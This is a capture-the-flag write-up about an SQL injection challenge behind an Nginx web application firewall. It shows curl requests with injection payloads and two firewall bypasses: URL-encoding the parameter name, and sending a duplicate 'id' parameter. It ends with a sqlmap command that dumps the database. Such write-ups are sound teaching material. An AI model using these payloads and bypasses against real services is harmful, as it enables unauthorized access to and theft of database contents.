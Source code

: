 # Waffles

This was an SQL injection challenge. The twist is that there is an Nginx WAF in front of the vulnerable service.
The only url parameter to play with was 'id', but if we put something evil into it we are caught but Nginx:

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1%20or%201"```
<html>
<head><title>406 Not Acceptable</title></head>
<body bgcolor="white">
<center><h1>406 Not Acceptable</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

There are multiple ways to circumvent this. The one I found was escaping the `id` parameter like this: 

```https://waffles.secchallenge.crysys.hu/?%69d=1```


Then with:
```shell
> curl "https://waffles.secchallenge.crysys.hu/?%69d=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```
We got some `Freshly cut strawberries`. 

We can also try to pass in two `id` parameters instead of just one. Nginx validates the first one, but the service uses the second one. It's just like this: web servers and services implement ambigous parameters differently.

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1&id=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```

Now it's just a standard SQL injection challenge, solvable by hand or with tools like `sqlmap`.

```shell
> sqlmap -u 'https://waffles.secchallenge.crysys.hu/?id=1&id=1' -p 'id' -D REDACTED --dump-all
```

| id | order_id     | description                                                                                                                                 |
|----|--------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 12234        | Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.                       |
| 2  | 235325       | Two deep fried crispy tenders with bacon crumble and maple syrup on top of our golden Liege waffle.                                         |
| 3  | 598412       | Tangy lemon curd, fresh blueberries, and our housemade whipped cream on top of our golden Liege waffle.                                     |
| 4  | REDACTED     | cd22{REDACTED}                                                                                                                              |
| 5  | 1337         | Fire toasted mini marshmallows, chocolate syrup, and cookie butter (aka liquid graham crackers) on top of our golden Liege waffle.          |
| 6  | 1682934      | Freshly sliced bananas, peanut butter, honey, and bacon crumble on top of our golden Liege waffle.                                          |
| 7  | 123172       | Waffle sandwich stuffed with blackforest ham, smoked turkey, melted white american cheese, and berry jam inside of our golden Liege waffle. |







